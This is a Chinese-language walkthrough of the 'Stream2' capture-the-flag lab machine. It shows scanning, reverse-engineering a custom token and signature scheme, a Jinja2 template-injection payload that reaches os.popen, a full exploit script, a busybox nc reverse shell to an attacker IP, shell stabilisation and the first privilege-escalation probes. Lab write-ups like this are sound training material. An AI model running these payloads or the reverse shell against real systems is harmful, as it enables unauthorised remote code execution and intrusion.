# Stream2


# Stream2

## 端口扫描

```python
(base) ┌──(root㉿kali)-[/tmp]
└─# rustscan -a 192.168.56.183  --ulimit 5000 -- -sV -A
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
I scanned ports so fast, even my computer was surprised.

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.56.183:22
Open 192.168.56.183:8080
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} -{{ipversion}} {{ip}} -sV -A" on ip 192.168.56.183
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-07-14 13:42 CST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 13:42
Completed NSE at 13:42, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 13:42
Completed NSE at 13:42, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 13:42
Completed NSE at 13:42, 0.00s elapsed
Initiating ARP Ping Scan at 13:42
Scanning 192.168.56.183 [1 port]
Completed ARP Ping Scan at 13:42, 0.05s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 13:42
Completed Parallel DNS resolution of 1 host. at 13:42, 0.07s elapsed
DNS resolution of 1 IPs took 0.07s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 13:42
Scanning 192.168.56.183 [2 ports]
Discovered open port 8080/tcp on 192.168.56.183
Discovered open port 22/tcp on 192.168.56.183
Completed SYN Stealth Scan at 13:42, 0.01s elapsed (2 total ports)
Initiating Service scan at 13:42
Scanning 2 services on 192.168.56.183
Completed Service scan at 13:44, 91.25s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 192.168.56.183
Retrying OS detection (try #2) against 192.168.56.183
NSE: Script scanning 192.168.56.183.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 13:44
Completed NSE at 13:44, 0.24s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 13:44
Completed NSE at 13:44, 1.01s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 13:44
Completed NSE at 13:44, 0.00s elapsed
Nmap scan report for 192.168.56.183
Host is up, received arp-response (0.00091s latency).
Scanned at 2026-07-14 13:42:53 CST for 96s

PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 64 OpenSSH 10.4 (protocol 2.0)
8080/tcp open  http-proxy syn-ack ttl 64 Werkzeug/3.1.8 Python/3.14.5
|_http-server-header: Werkzeug/3.1.8 Python/3.14.5
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
|_http-title: STRM//v11
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.1.8 Python/3.14.5
|     Date: Tue, 14 Jul 2026 05:42:56 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 3235
|     Connection: close
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <meta charset="UTF-8">
|     <title>STRM//v11</title>
|     <style>
|     @import url('https://fonts.googleapis.com/css2?family=Share+Tech+Mono&display=swap');
|     *{margin:0;padding:0;box-sizing:border-box}
|     body{
|     background:#08080e;
|     font-family:'Share Tech Mono',monospace;
|     min-height:100vh;
|     display:flex;
|     justify-content:center;
|     align-items:center;
|     overflow:hidden
|     .grid{
|     position:fixed;inset:0;
|     background-image:
|     linear-gradient(rgba(0,255,255,.03) 1px,transparent 1px),
|     linear-gradient(90deg,rgba(0,255,255,.03) 1px,transparent 1px);
|     background-size:40px 40px;
|     animation:g 6s linear infinite
|     @keyframes g{100%{transform:translate(40px,40px
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.1.8 Python/3.14.5
|     Date: Tue, 14 Jul 2026 05:42:56 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: OPTIONS, GET, HEAD
|     Content-Length: 0
|     Connection: close
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <style type="text/css">
|     :root {
|     color-scheme: light dark;
|     </style>
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.94SVN%I=7%D=7/14%Time=6A55CC63%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,D52,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/3\.1\.8\
SF:x20Python/3\.14\.5\r\nDate:\x20Tue,\x2014\x20Jul\x202026\x2005:42:56\x2
SF:0GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
SF:\x203235\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html>\n<he
SF:ad>\n<meta\x20charset=\"UTF-8\">\n<title>STRM//v11</title>\n<style>\n\x
SF:20\x20@import\x20url\('https://fonts\.googleapis\.com/css2\?family=Shar
SF:e\+Tech\+Mono&display=swap'\);\n\x20\x20\*{margin:0;padding:0;box-sizin
SF:g:border-box}\n\x20\x20body{\n\x20\x20\x20\x20background:#08080e;\n\x20
SF:\x20\x20\x20font-family:'Share\x20Tech\x20Mono',monospace;\n\x20\x20\x2
SF:0\x20min-height:100vh;\n\x20\x20\x20\x20display:flex;\n\x20\x20\x20\x20
SF:justify-content:center;\n\x20\x20\x20\x20align-items:center;\n\x20\x20\
SF:x20\x20overflow:hidden\n\x20\x20}\n\x20\x20\.grid{\n\x20\x20\x20\x20pos
SF:ition:fixed;inset:0;\n\x20\x20\x20\x20background-image:\n\x20\x20\x20\x
SF:20\x20\x20linear-gradient$rgba\(0,255,255,\.03$\x201px,transparent\x2
SF:01px\),\n\x20\x20\x20\x20\x20\x20linear-gradient\(90deg,rgba\(0,255,255
SF:,\.03\)\x201px,transparent\x201px\);\n\x20\x20\x20\x20background-size:4
SF:0px\x2040px;\n\x20\x20\x20\x20animation:g\x206s\x20linear\x20infinite\n
SF:\x20\x20}\n\x20\x20@keyframes\x20g{100%{transform:translate\(40px,40px"
SF:)%r(HTTPOptions,C7,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/3\.1\
SF:.8\x20Python/3\.14\.5\r\nDate:\x20Tue,\x2014\x20Jul\x202026\x2005:42:56
SF:\x20GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20OP
SF:TIONS,\x20GET,\x20HEAD\r\nContent-Length:\x200\r\nConnection:\x20close\
SF:r\n\r\n")%r(RTSPRequest,1E9,"<!DOCTYPE\x20HTML>\n<html\x20lang=\"en\">\
SF:n\x20\x20\x20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20chars
SF:et=\"utf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x20<style\x20type=\"text/cs
SF:s\">\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20:root\x20{\n\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20color-scheme
SF::\x20light\x20dark;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20}\
SF:n\x20\x20\x20\x20\x20\x20\x20\x20</style>\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x20\x20
SF:\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20response</
SF:h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>\n\x20
SF:\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20version\x2
SF:0$'RTSP/1\.0'$\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20cod
SF:e\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20or\x20unsu
SF:pported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
MAC Address: 08:00:27:08:F9:83 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 2.6.32 (94%), Linux 3.2 - 4.9 (94%), Linux 3.16 (94%), Linux 2.6.32 - 3.10 (93%), Linux 4.15 - 5.8 (93%), Linux 5.3 - 5.4 (93%), ASUS RT-N56U WAP (Linux 3.4) (93%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=7/14%OT=22%CT=%CU=33296%PV=Y%DS=1%DC=D%G=N%M=080027%TM=6A55CCBD%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=109%TI=Z%CI=Z%TS=22)
SEQ(SP=106%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=22)
OPS(O1=M5B4ST11NW9%O2=M5B4ST11NW9%O3=M5B4NNT11NW9%O4=M5B4ST11NW9%O5=M5B4ST11NW9%O6=M5B4ST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5B4NNSNW9%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 0.000 days (since Tue Jul 14 13:44:22 2026)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE
HOP RTT     ADDRESS
1   0.91 ms 192.168.56.183

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 13:44
Completed NSE at 13:44, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 13:44
Completed NSE at 13:44, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 13:44
Completed NSE at 13:44, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.59 seconds
           Raw packets sent: 47 (3.672KB) | Rcvd: 31 (2.616KB)

```

## 8080/tcp

页面标题为 `STRM//v11`​，页面信息提示核心接口是 `/stream`​，并且 auth 关键字是 `StreamClient`​。所以继续请求 `/stream`



这两个信息说明：

- 应该有个接口大是 `/stream`。
- 请求可能需要 `User-Agent`​ 或某种客户端标识包含 `StreamClient`。

访问接口，返回的是 SSE 格式数据，并且响应头给出认证提示。



于是加上 `User-Agent: StreamClient` 再测。

```python
GET /stream HTTP/1.1
Host: 192.168.56.183:8080
Upgrade-Insecure-Requests: 1
User-Agent: StreamClient
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive


```

出现提示如下：

```python
X-Error: Missing X-Token or X-Sign
X-Order-Hint: X-Token must appear before X-Sign
```



可以推出：

- 必须有 `X-Token`。
- 必须有 `X-Sign`。
- 服务端检查请求头顺序，`X-Token`​ 必须在 `X-Sign` 前面。

然后随便填了两个值测试一下

```python
GET /stream HTTP/1.1
Host: 192.168.56.183:8080
User-Agent: StreamClient
X-Token: 1
X-Sign: 1
Connection: close

```

发现提示报错，token 要先满足 `username:timestamp` 这个格式。



比如先填个 `test:1`​ 的 base64 是 `dGVzdDox`，发现时间戳过期不行，偏差在 60 秒



构造一个当前时间戳的合法 token

```python
python3 - <<'PY'
import base64, time
ts = str(int(time.time()))
raw = f"test:{ts}"
print(base64.b64encode(raw.encode()).decode())
PY
```

然后发现签名错了

```python
X-Error: Invalid signature
X-Sign-Hint: SHA256(X-Token + timestamp)[:12]
```



把这些提示连起来，可以还原出认证流程：

- `X-Token`​ 是 `base64(username:timestamp)`。
- `timestamp` 必须和服务端当前时间相差不超过 60 秒。
- `X-Sign` 是某个 sha256 截断值。
- 服务端提示写的是 `SHA256(X-Token + timestamp)[:12]`。

$$
token\_data = username + ':' + timestamp \\
X-Token = base64(token\_data) \\
X-Sign = sha256(token\_data + ':' + timestamp)[0:12]
$$

也就是如下：

```python
python3 - <<'PY'
import base64, time, hashlib
username = 'test'
ts = str(int(time.time()))
token_data = f"{username}:{ts}"
token = base64.b64encode(token_data.encode()).decode()
sign = hashlib.sha256(f"{token_data}:{ts}".encode()).hexdigest()[:12]
print(token)
print(sign)
PY
```

可以发现检验通过了，并且服务端把某个 key 和密文都发过来了



`[DATA]` 每块很短，这不太像 AES 这种分组加密，猜测可能 XOR 加密，尝试一下



发现解出来完整明文，hello, test。这里直接返回了我们填入的 username，这里就有点像平时 ctf 中遇到的 ssti，尝试如下构造

```python
{{7 * 7}}
```

最后返回的 hello, 49，说明 username 存在 ssti。



Jinja2 常用对象链可以通过 `cycler.__init__.__globals__`​ 访问 Python 函数全局变量。由于源码里已经 `import os`​，所以可以取到 `os`​ 模块并调用 `os.popen()`。

payload：

```python
{{cycler.__init__.__globals__.os.popen('id').read()}}
```

然后写了个简单的利用脚本

```python
#!/usr/bin/env python3
import base64
import hashlib
import re
import socket
import time

HOST = "192.168.56.183"
PORT = 8080
username = "{{cycler.__init__.__globals__.os.popen('id').read()}}"

ts = str(int(time.time()))
token_data = f"{username}:{ts}"
token = base64.b64encode(token_data.encode()).decode()
sign = hashlib.sha256(f"{token_data}:{ts}".encode()).hexdigest()[:12]

req = (
    f"GET /stream HTTP/1.1\r\n"
    f"Host: {HOST}:{PORT}\r\n"
    "User-Agent: StreamClient\r\n"
    f"X-Token: {token}\r\n"
    f"X-Sign: {sign}\r\n"
    "Connection: close\r\n\r\n"
).encode()

data = b""
s = socket.create_connection((HOST, PORT), timeout=3)
s.settimeout(10)
s.sendall(req)
try:
    while True:
        chunk = s.recv(4096)
        if not chunk:
            break
        data += chunk
except socket.timeout:
    pass
s.close()

raw = data.decode("utf-8", "replace")
key = base64.b64decode(re.search(r"^data:\s*
$$KEY$$
\s*(\S+)", raw, re.M).group(1))
blocks = re.findall(r"^data:\s*
$$DATA$$
\s*(\S+)", raw, re.M)

out = b""
for b64 in blocks:
    ct = base64.b64decode(b64)
    out += bytes([c ^ key[i % len(key)] for i, c in enumerate(ct)])

print(out.decode("utf-8", "replace"))

```



反弹 shell

```python
busybox nc 192.168.56.102 3344 -e /bin/bash
```

稳定 shell

```python
/usr/bin/script -qc /bin/bash /dev/null
按下 ctrl z
stty raw -echo; fg
export TERM=xterm
export SHELL=/bin/bash
```



```python
Stream2:~$ cat user.txt 
flag{user-de95c47bbdc6b8dccd0fd0eb074b717a}
Stream2:~$ 
```

## 提权

发现一个信息

```python
Stream2:/tmp$ cat /etc/motd
root password is 32 characters
Stream2:/tmp$ 
```

ss 发现127.0.0.1 还开启了一个 5000 端口

```python
State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
LISTEN 0      128          0.0.0.0:22        0.0.0.0:*   
LISTEN 0      128        127.0.0.1:5000      0.0.0.0:*   
LISTEN 0      128          0.0.0.0:8080      0.0.0.0:*    users:(("python3",pid=2439,fd=3))
LISTEN 0      128             [::]:22           [::]:*   
Stream2:/tmp$ 
```

然后再看看进程

```python
ps auxww
```



发现还有一个 `/opt/server/app2.py` 由 root 运行。估计应该就是本地的 5000 端口，然后访问一下

```python
Stream2:/tmp$ curl -s http://127.0.0.1:5000/
{"method":"POST","params":{"key":"string (required)"},"response":{"200":"success","401":"fail"}}
Stream2:/tmp$ 
```

